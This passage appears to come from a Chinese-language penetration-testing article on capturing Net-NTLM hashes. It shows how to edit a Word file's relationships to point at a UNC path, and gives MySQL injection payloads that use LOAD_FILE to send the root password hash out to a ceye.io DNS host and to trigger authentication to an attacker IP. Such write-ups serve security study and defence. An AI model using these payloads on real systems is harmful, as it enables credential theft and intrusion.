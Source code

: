 发现会有提示

![image-20191121175838786](https://p1.ssl.qhimg.com/t01a7438060c6b7fcad.png)

## 0x06 office

首先新建一个word，贴近一张图片

![image-20191121182534202](https://p1.ssl.qhimg.com/t0177a0ec884d7c213f.png)

然后用7zip 打开(没测试其他软件，可自行测试)

进入word\\_rels，修改document.xml.rels

![image-20191121182941462](https://p3.ssl.qhimg.com/t01b3ac738eafbe3ef8.png)

可以看到Target参数本来是本地的路径

![image-20191121182705648](https://p3.ssl.qhimg.com/t014b72910273a063aa.png)

修改为UNC路径，然后加上`TargetMode="External"`

![image-20191121183030427](https://p4.ssl.qhimg.com/t0122905cebda3dbc40.png)

当打开word的时候,我们就拿到net-ntlm  hash

![image-20191121183321169](https://p0.ssl.qhimg.com/t016a7347543991009d.png)

## 0x07 MySQL

我们知道在MySQL注入的话，是可以通过带外通信把数据带出来。语法如下。

```mysql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

需要具备load_file权限，且没有secure_file_priv的限制(5.5.53默认是空，之后的话默认为NULL就不好利用了,不排除一些管理员会改)

仔细观察我们会发现LOAD_FILE是支持UNC路劲

我们构造

```sql
select load_file('\\\\172.16.100.1\\mysql');
```

拿到net-ntlm  hash

![image-20191120203418305](https://p5.ssl.qhimg.com/t0171522a2d96fbcc32.png)

## 0x08 NBNS和LLMNR

windows 解析域名的顺序是

-  Hosts
-  DNS (cache / server) 
-  LLMNR
-  NBNS 
